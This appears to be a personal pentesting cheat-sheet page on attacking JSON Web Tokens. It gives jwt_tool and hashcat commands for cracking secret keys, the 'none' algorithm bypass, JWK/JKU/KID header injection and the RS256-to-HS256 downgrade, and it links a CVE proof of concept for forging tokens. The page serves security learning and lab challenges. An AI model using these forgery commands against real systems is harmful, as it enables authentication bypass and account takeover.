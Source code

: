 # JSON Web Token (JWT)

[![hacking_jwt](../../../../_badges/hacktricks/hacking_jwt.svg)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)
[![json_web_token](../../../../_badges/poat/json_web_token.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)

<div class="row row-cols-lg-2"><div>

JSON Web Token (JWT) are used to represent signed data. They are commonly used in for authentication and authorization.

The format is: `<algo>.<data>.<signature>`. Each part is base64 encoded, so the final string is URL-safe while it can be easily decoded.

The data is signed using a secret key. If the secret key is compromised, everyone can sign messages 🔏.

The signature is used to detect if data was tampered with.
</div><div>

They can be transferred and found in:

* 📚 Headers (`Authorization: Bearer <JWT>`)
* 🍪 Cookies
* 📄 URL Parameters
* 💼 Request Body
* ...

📚 A common handy wordlist is [jwt-secrets](https://github.com/wallarm/jwt-secrets).
</div></div>

<hr class="sep-both">

## Common JWT Attacks

<div class="row row-cols-lg-2"><div>

You can use [jwt-tools](https://github.com/ticarpi/jwt_tool) <small>(4.8k ⭐)</small> to attack JWT:

```shell!
$ git clone https://github.com/ticarpi/jwt_tool.git $HOME/tools/jwt_tool
$ chmod +x $HOME/tools/jwt_tool/jwt_tool.py
$ ln -s $HOME/jwt_tool/jwt_tool.py $HOME/.local/bin/jwt_tool
$ jwt_tool -h
```

```ps
$ jwt_tool 'jwt'             # decode
$ jwt_tool 'jwt' -T          # encode
$ jwt_tool 'jwt' -I -pc claim -pv value
```

You can also use [jwt.io](https://jwt.io/).

#### Secret Key Brute Forcing

[![jwt_weak_secret](../../../../_badges/rootme/web_server/jwt_weak_secret.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret)

The secret key may be weak and brute forced:

```ps
$ jwt_tool 'jwt' -T -p "key" # use secret key
$ jwt_tool 'jwt' -C -d ./jwt.secrets.list # crack key
```

```ps
$ hashcat -m 16500 hash ./jwt.secrets.list
```

#### JWT Header Injection — None Algorithm

[![jwt_introduction](../../../../_badges/rootme/web_server/jwt_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction)

We may be able to disable the tampering check by setting the signature algorithm to 'none.'

```ps
$ jwt_tool 'jwt' -T -X a     # attack 'algo=none'
```

📚 It also possible for the signature to not be checked at all by the server after issuing a JWT even if there is an algorithm.
</div><div>

#### JWT Header Injection — JWK

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)

JWT may use the `jwk` header to represent the RSA key used to sign the data. We may be able to inject our own RSA key.

```ps
$ jwt_tool 'jwt' -T -X i     # attack 'jwk header injection'
                             # -hc kid -hv jwt_tool
```

#### JWT Header Injection — JKU

[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)

The `jku` header contains a URL or a filename used to fetch a key.

```shell!
$ cat $HOME/.jwt_tool/jwttool_custom_jwks.json # upload to URL as jwks.json
$ jwt_tool -X s -ju "URL/jwks.json" -I -hc kid -hv jwt_tool -pc claim -pv value
```

📚 You may check: `/jwks.json`, `/.well-known/jwks.json`, etc. Refer to [SSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md) for insight on URLs <small>(filtering, attacks, etc.)</small> and setting up a [grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md).

#### JWT Header Injection — KID

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)
[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)
[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)

The `kid` header may be added to the header to determine which key to use when there are multiple keys. It must match the `kid` header inside the `jwt` object or a `jwt` loaded from the `jku` endpoint.

#### JWT Header Injection — RS256 to HS256

[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)

When using RS256 algorithm, JWT uses the private key to sign the JWK and the public key to verify integrity. We may be able to perform a downgrade attack to HS256 and only use a public key for both.

```ps
$ jwt_tool 'jwt' -S hs256 -k public.key -T
```

You can compute the public key if you have two messages:

```ps
$ docker run -it ttervoort/jws2pubkey "JWT1" "JWT2"
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [PortSwigger JWT](https://portswigger.net/web-security/jwt)
* [JWT](https://jwt.io/), (Bearer, encrypted token), modern alternative to (apache) HTTP basic auth? (from=35). HTB/170. [RFC](https://tools.ietf.org/html/rfc7617).
* [CVE-2022-39227](https://github.com/user0x1337/CVE-2022-39227) for `python-jwt<3.3.4`: given a token, forge fake tokens
</div><div>
</div></div>